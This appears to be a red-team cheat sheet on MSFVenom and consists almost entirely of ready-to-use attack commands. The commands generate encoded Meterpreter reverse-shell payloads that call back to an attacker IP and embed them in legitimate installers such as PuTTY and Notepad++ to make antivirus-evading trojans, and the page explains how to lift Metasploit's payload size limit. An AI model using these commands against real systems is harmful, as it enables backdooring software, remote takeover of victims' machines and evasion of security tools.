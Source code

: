 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - defense-evasion
  - backdoor
  - metasploit-framework
---
```

# MSFVenom


> [!INFO] Error Message
> To remove the message `Error: The EXE generator now has a max size of 2048 bytes, please fix the calling module`. Modify a specific ruby script (`/opt/metasploit-framework/embedded/framework/lib/msf/util/exe.rb`) by increasing the size limit from `2048` to `204800` to fix it.

```
$ msfvenom -a x64 --platform windows -p generic/custom PAYLOADFILE=calc.exe -f vba-exe
```


```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> exitfunc=thread prependmigrate=true prependmigrateproc=<process.exe> -e x64/xor_dynamic -i 10 -k -x putty_x64.exe -o backdoored_putty_x64.exe
```

Embed a legitimate program into a trojan horse

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.2.105 lport=443 -e x86/shikata_ga_nai -i 10 -f raw > payload.bin

$ msfvenom -a x86 --platform windows -p generic/custom payloadfile=payload.bin exitfunc=thread prependmigrate=true prependmigrateproc=<process.exe> -e x86/bloxor -i 5 -x npp.8.1.7.Installer.exe -k -f exe -o notepad-plus-plus.Installer.exe
```

---
## References

- [Backdooring Putty](https://fluidattacks.com/blog/backdooring-putty/)

- [Patching Windows Executable with the Backdoor](https://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory)

- [RoseSecurity: Bypass AV Payload Detection](https://github.com/RoseSecurity/Anti-Virus-Evading-Payloads/blob/main/Bypass-AV-Payload-Detection.md)